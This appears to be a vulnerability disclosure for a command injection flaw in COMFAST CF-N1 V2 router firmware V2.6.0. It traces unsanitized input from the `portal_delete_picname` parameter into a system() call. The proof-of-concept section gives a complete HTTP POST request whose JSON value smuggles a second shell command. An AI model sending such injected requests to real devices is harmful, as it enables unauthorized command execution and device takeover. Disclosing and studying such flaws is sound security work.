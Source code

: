 # COMFAST CF-N1 V2 V2.6.0 Command Injection in \`wifilith\_delete\_pic\_file\`

Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `wifilith_delete_pic_file`

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wifilith_delete_pic_file` API (`/usr/bin/webmgnt`, function `sub_417888`). Attackers can inject arbitrary commands via the `portal_delete_picname` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![Vulnerability Overview Diagram](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_417888` function handling the `wifilith_delete_pic_file` section. Disassembly analysis shows that the user-controlled `portal_delete_picname` parameter is unsanitized and directly incorporated into a system command via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `portal_delete_picname`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The parameter value is inserted into a command string using `sprintf_0` (likely constructing a file deletion command template, e.g., `rm -f /etc/wifilith/%s`).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to bypass intended file deletion operations and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Execution Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file  HTTP/1.1
Host: cflogin.cn
Content-Length: 69
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"portal_delete_picname": "; echo delete >  /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `portal_delete_picname`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "delete", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
